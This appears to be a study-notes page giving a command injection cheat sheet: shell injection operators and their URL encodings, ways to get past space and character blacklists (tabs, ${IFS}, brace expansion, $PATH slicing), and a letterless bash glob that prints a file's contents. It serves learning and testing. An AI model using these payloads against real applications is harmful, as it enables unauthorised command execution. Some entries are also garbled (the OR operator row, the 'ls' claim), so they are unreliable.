 ```yaml
---
title: Command Injection
layout: post
date: 2025-05-05
description: "Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application."
permalink: /theory/misc/cmi
---
```


## Command Injection Overview
Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application. This is typically done by injecting malicious commands into input fields that are then executed by the server.

## Command Injection Cheat Sheet


### Basic Command Injection Characters

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

### Bypassing Blacklists
 
#### Filtered Spaces

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Description**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------- |
| Tab                    | `\t`                    | `%09`                     | Both Linux and Windows accepts tabs to separate commands, useful for bypassing a space blacklist|
| `IFS`              | `${IFS}`                  |             | IFS is a special variable in Linux (Internal Field Separator) which is normally a space or a tab as the default separator|
| `Brace Expansion` | `{}` | `` | `{}` is a special character in Linux which is used to group commands together. It can be used to bypass a space blacklist, `{ls,-la}` would result in `ls -la` command |

> **Note:** To force a tab character on a shell, we can send `CTRL+v` and then `CTRL+I` (or simply `CTRL-v`+`TAB Key`) to insert a tab character. This is useful when we want to bypass a space blacklist.

### Bypassing Arithmetic Expansion

If we are inside an arithmetic expansion environment like

```bash
echo $((<INPUT>))
```

we can add spaces from within the parentheses to make the shell interpret the command as a simple command expression and not as an arithmetic expression. For example, if we want to execute the command `ls`, we can use the following command:

```bash
#Input: ls -la) ) #
```

this will be evaluated as `echo $((ls -la ) ) #))`, which will be interpreted as `echo $((ls -la) )` and will show us the output of the command `ls -la`.


### Getting Characters From Environment Variables

We can bypass some filters by using environment variables to get the characters we need. For example, if we want to get the character `:`, or `/`, we can use the environment variable `PATH` which contains a colon `:` and `/` in its value.

```bash
echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
We can use the `{}` operator to get the character we need. For example, if we want to get the character `:`, we can use the following command:

```bash
${PATH:16:1}
```

This will return the character `:`. We can use the same technique to get the character `/` by using the following command:

```bash
${PATH:0:1}
```

### Bash without letters
With bash we can use special characters to execute commands without using letters. For example, we can use the following command to execute `ls`:

```bash
"$(<~/*/????.???)"
```
This command will send to contents of the file `flag.txt` (or the one matching the `?`) and return an output error saying command not found but with the contents of the file.
